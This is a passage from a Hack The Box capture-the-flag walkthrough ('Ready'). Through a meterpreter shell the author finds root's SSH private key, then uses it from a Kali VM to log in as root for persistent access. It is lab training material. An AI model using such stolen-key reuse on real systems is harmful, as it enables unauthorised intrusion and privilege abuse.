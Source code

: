 There is even an SSH key for root:

```bash
meterpreter > cd .ssh
meterpreter > ls
Listing: /root/.ssh
===================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  405   fil   2020-12-07 17:49:44 +0100  authorized_keys
100600/rw-------  1675  fil   2020-12-07 17:49:44 +0100  id_rsa
100644/rw-r--r--  405   fil   2020-12-07 17:49:44 +0100  id_rsa.pub
```

That is the last thing I want to try. Can I access the host with SSH:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ nano id_rsa

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ chmod 600 id_rsa 

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ ssh root@ready.htb -i id_rsa
The authenticity of host 'ready.htb (10.10.10.220)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ready.htb,10.10.10.220' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

---[snip]---

Last login: Thu Feb 11 14:28:18 2021
root@ready:~# ls
docker-gitlab  ready-channel  root.txt  snap
root@ready:~# hostname
ready
root@ready:~#
```

So I have gained persistent access to the root user of the host machine. (With this knowledge of the SSH key, I could have just copied the key in the GitLab reverse shell without the meterpreter shell on the host)